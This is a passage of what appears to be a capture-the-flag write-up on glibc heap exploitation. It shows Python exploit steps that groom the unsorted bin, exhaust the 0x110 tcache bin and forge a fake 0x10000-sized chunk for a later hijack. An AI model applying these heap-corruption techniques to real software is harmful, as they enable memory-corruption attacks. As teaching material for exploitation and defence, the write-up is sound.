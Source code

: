 Now allocate the remaining data of the `unsorted bin` such that we can create a similar setup for `unsorted2` without it first attempting to empty `unsorted1` or even worse, sorts the `unsorted bin`.

After allocating the remainder of `unsorted1`, we do the same for `unsorted2`:
```python
# Allocate the rest of unsorted1 such that it does not get sorted when working with unsorted2
unsorted_f1 = malloc(0x108, b'Y'*mal_size)

# Fit unsorted 2
free(unsorted2)
free(d2)

# Same as above
malloc(0x38, b'X')
malloc(0x48, b'X')
malloc(0x38, b'X')
malloc(0x58, b'X')

# Same as above
unsorted_f2 = malloc(0x108, b'Z'*mal_size)
```

Finally, allocate a third `chunk` of size `0x108` which will be hijacked for later:
```python
# This will be hijacked
unsorted_f3 = malloc(0x108, b'X'*mal_size) 
```

With this ready, we will now exhaust the `0x108` `t-cache` such that when we free `unsorted_f1`, `unsorted_f2` and `unsorted_f3` they will go to the `unsorted bin` instead of the `0x110 t-cache`:
```python
#################################################################
#               Exhaust the 0x110 t-cache bin                   #
#################################################################
tcache_0x110 = []
for i in range(8):
    tcache_0x110.append(malloc(0x108, b'^'*0x108))
for i in tcache_0x110:
    free(i)
```


Now almost all of the preparations are done. 
Thinking back to "the plan", one of the requirements from the `try_free` command was that our `fake chunk+0x10000` had to be == `0x10000`, with a chunk in front of it.

So let's do that:
```python
#################################################################################
#   Make the entry in the mgmt chunk a valid chunk by making the size 0x10000   #
#   and making a valid size next to it with prev_in_use set to 0                #
#################################################################################

for i in range(36):
    malloc(0x5f8, b'Z'*0x5f8)
malloc(0x5f8, b'A'*0xd0+p64(0x10000)+p64(0x20))
```
